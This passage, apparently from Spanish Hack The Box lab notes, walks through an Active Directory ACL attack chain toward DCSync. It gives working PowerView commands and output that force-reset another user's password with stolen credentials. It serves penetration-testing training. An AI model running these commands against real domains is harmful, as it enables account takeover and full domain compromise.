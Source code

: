 ------
- Tags: #acls #GenericAll-Privilege #
--------
## Abusar de las ACL

Una vez más, para recapitular dónde estamos y hacia dónde queremos llegar. Tenemos el control del `wley`usuario cuyo hash NTLMv2 recuperamos al ejecutar Responder anteriormente en la evaluación. Por suerte para nosotros, este usuario estaba usando una contraseña débil y pudimos descifrar el hash sin conexión usando Hashcat y recuperar el valor de texto sin cifrar. Sabemos que podemos usar este acceso para iniciar una cadena de ataque que nos permitirá tomar el control del `adunn`usuario que puede realizar el ataque DCSync, lo que nos daría control total del dominio al permitirnos recuperar los hashes de contraseña NTLM para todos los usuarios en el dominio y escalar privilegios al administrador de dominio/empresa e incluso lograr persistencia. Para realizar la cadena de ataque, tenemos que hacer lo siguiente:

1. Utilice el `wley`usuario para cambiar la contraseña del `damundsen`usuario
2. Autenticarse como `damundsen`usuario y aprovechar `GenericAll`los derechos para agregar un usuario que controlamos al `Help Desk Level 1`grupo
3. Aproveche la membresía del grupo anidado en el `Information Technology`grupo y aproveche `GenericAll`los derechos para tomar el control del `adunn`usuario.

Entonces, primero debemos autenticarnos `wley`y forzar el cambio de contraseña del usuario `damundsen`. Podemos comenzar abriendo una consola PowerShell y autenticándonos como `wley`usuario. De lo contrario, podríamos saltarnos este paso si ya estuviéramos ejecutando como este usuario. Para ello, podemos crear un [objeto PSCredential](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0) .
#### Crear un objeto PSCredential

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

 A continuación, debemos crear un [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) que represente la contraseña que queremos establecer para el usuario objetivo `damundsen`.
#### Crear un objeto SecureString

```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Finalmente, usaremos la función [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) PowerView para cambiar la contraseña del usuario. Necesitamos usar la `-Credential`bandera con el objeto de credencial que creamos para el `wley`usuario. Es mejor especificar siempre la `-Verbose`bandera para obtener comentarios sobre el comando que se completó como se esperaba o tanta información sobre los errores como sea posible. Podríamos hacer esto desde un host de ataque de Linux usando una herramienta como `pth-net`, que forma parte del [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) .
#### Cambiar la contraseña del usuario

```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'damundsen'
VERBOSE: [Set-DomainUserPassword] Password for user 'damundsen' successfully reset
```
